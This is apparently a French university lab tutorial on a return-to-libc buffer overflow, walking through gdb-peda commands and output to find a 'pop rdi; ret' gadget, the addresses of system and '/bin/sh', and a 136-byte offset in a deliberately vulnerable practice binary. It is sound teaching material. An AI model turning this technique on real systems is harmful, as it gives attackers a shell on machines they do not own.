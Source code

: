 ## Return 2 libc

* Le binaire est compilé avec le flag NX activé (moyen de protection par le noyau rendant la pile non exécutable).

* Le mécanisme de randomisation de l'espace d'adresse ASLR est désactivé

* Installation de l'outil ropper :  https://github.com/sashs/Ropper

![ret1](https://github.com/aabda2000/sti3a-security/assets/38082725/a7908f53-49b0-4ed9-8a84-5e8b42212306)


## Comment retourner à libc ?
Ici, l'objectif est de détourner le flot d'exécution normal du processus : Il s'agit de le rediriger pour exéuter la fonction system de libc:

int system(const char *command). 

plus précisément, on voudrait exécuter l'instruction : system("/bin/sh")

## Gadget poprdi ?

On commence notre investigation par la recherche d'un gadget de type pop rdi (il faut d'abord faire un break,sur vuln par exemple, dans gdb, et ensuite lancer le programme):


![ret2](https://github.com/aabda2000/sti3a-security/assets/38082725/b24826df-0697-4033-baf7-e3a3d395324a)

sinon, vous pouvez cherchez ce gadget en fournissant les adresses de début et de fin de mappage de libc:

![ret3](https://github.com/aabda2000/sti3a-security/assets/38082725/50c7c117-e152-4260-a75e-13440038dfa0)


gdb-peda$ ropsearch "pop rdi ; ret" 0x00007ffff7dee000 0x00007ffff7faf000

ou

gdb-peda$ dumprop

ou

gdb-peda$ asmsearch "pop rdi ; ret"

Ma méthode préférée:

![Schéma de l'architecture](images/poprdi.png)


## Chercher l'adresse de la chaîne "/bin/sh"

![ret4](https://github.com/aabda2000/sti3a-security/assets/38082725/e73f41cb-5a46-478e-8a6c-3b82b30164a4)

## Chercher l'adresse de la fonction system

gdb-peda$ p system

$1 = {int (const char *)} 0x7ffff7e36e50 <__libc_system>

gdb-peda$

## Chercher l'offset

gdb-peda$ pattern_create 400 entry.txt

Writing pattern of 400 chars to filename "entry.txt"

gdb-peda$ 

gdb-peda$ r < <(cat entry.txt)

Starting program: /home/insa/advanced/secu/cm/02-ret2libc/ret2libc < <(cat entry.txt)

adress of buf=0x7fffffffde10

Stopped reason: SIGSEGV

0x0000000000401178 in vuln () at ret2libc.c:10

10	}

gdb-peda$ x/1wx $rsp

0x7fffffffde98:	0x41514141

gdb-peda$ pattern offset 0x41514141

1095844161 found at offset: 136


l'offset vaut 136

La génération d'une erreur de segmentation (et d'un coredump (contenant l'état de la mémoire au moment du décès du processus,
sous GNU/Linux) est le syndrome que notre application est effectivement affectée par l'insertion d'un trop grand nombre de caractères en entrée.

## Lancez l'attaque

Mettez les différentes adresses trouvées dans les scripts pythons (les scripts exploitx.py où x est le numéro de l'exploit)


